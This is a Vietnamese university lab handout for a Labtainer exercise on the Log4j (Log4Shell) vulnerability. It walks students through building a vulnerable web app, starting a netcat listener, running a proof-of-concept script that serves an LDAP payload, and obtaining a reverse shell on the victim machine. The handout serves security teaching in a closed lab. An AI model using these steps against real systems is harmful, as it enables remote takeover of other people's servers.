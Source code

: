 1. Nội dung và hướng dẫn thực hiện bài thực hành
1.1.  Mục đích
Giúp sinh viên hiểu biết về lỗ hỏng Log4j, cách khai thác lỗ hỏng và các dạng tấn công. Cho phép máy attacker chiếm quyền điều khiển máy victim
1.2 Yêu cầu đối với sinh viên
Có kiến thức cơ bản về hệ điều hành Linux, mô hình mạng máy chủ/khách.
1.3 Nội dung thực hành
	- Khởi động bài lab:
	Vào terminal gõ:
			labtainer ptit-log4j -r 
(chú ý: sinh viên sử dụng email stu.ptit.edu.vn của mình để nhập thông tin email người thực hiện bài lab khi có yêu cầu, để sử dụng khi chấm điểm)
Sau khi khởi động bài lab xong thì sẽ có 3 terminal ảo xuất hiện, hai cái đại diện cho máy attack: attacker và một máy đại diện cho máy victim: victim. Biết rằng 2 máy này cùng mạng LAN.
Ở trên terminal victim: ta sử dụng quyền root để truy cập vào thư mục log4j-shell-poc. Sau khi truy cập vào thư mục ta bắt đầu build docker với lệnh:
			sudo docker build -t log4j-shell-poc . 
Sau khi build xong ta chạy lệnh docker run để thiết lập môi trường với lệnh:
			sudo docker run --network host log4j-shell-poc
Khi nhập lệnh xong, ta sẵn sàng máy chủ ứng dụng web dễ bị tấn công, bây giờ ta hãy duyệt đến địa chỉ IP máy victim trong trình duyệt tại cổng 8080.
Ở trên terminal đầu tiên attacker: ta sử dụng quyền root để truy cập vào thư mục chứa file jdk java jdk-8u202-linux-x64.tar.gz và giải nén jdk với lệnh:
			tar -xf jdk-8u202-linux-x64.tar.gz
	Sau khi giải nén xong thì ta chuyển file jdk vào thư mục /usr/bin
			mv jdk1.8.0_202 /usr/bin
Tiếp theo ta truy cập vào thư mục log4j-shell-poc ở trên terminal attacker còn lại. Thư mục đó chứa tập lệnh python, poc.py mà ta sẽ phải cấu hình chỉnh sửa nano poc.py. Ở đây ta cần sửa đổi đường dẫn của file jdk ‘ ./jdk1.8.2.20/ ’ thành ‘ /usr/bin/jdk1.8.0_202/ ’
Khi mà tất cả các thay đổi đã xong ta lưu file lại và bắt đầu tấn công. Đầu tiên ta khởi tạo trình nghe netcat với cổng 9001 trên terminal attacker đầu tiên:
			nc -lvp 9001
Tiếp theo ta sẽ khởi tạo LDAP ở terminal attacker còn lại để tạo payload để request đến webserver
python3 poc.py --userip <IP máy attacker> --webport 8000 --lport 9001
Sau khi tạo thành công payload ta truy cập đến trình duyệt web có địa chỉ IP máy victim ta dán payload vào username và password để bất kỳ rồi ta login.
Khi login xong thì ở cửa sổ netcat ta nhận được 1 trình bao ngược lại và ta đã chiếm được quyền điều khiển máy victim.
- Kết thúc bài lab:
•	Trên terminal đầu tiên sử dụng câu lênh sau để kết thúc bài lab:
stoplab ptit-log4j
•	Khi bài lab kết thúc, một tệp zip lưu kết quả được tạo và lưu vào một vị trí được hiển thị bên dưới stoplab.
- Khởi động lại bài lab:
•	Trong quá trình làm bài sinh viên cần thực hiện lại bài lab, dùng câu lệnh:
labtainer ptit-log4j -r

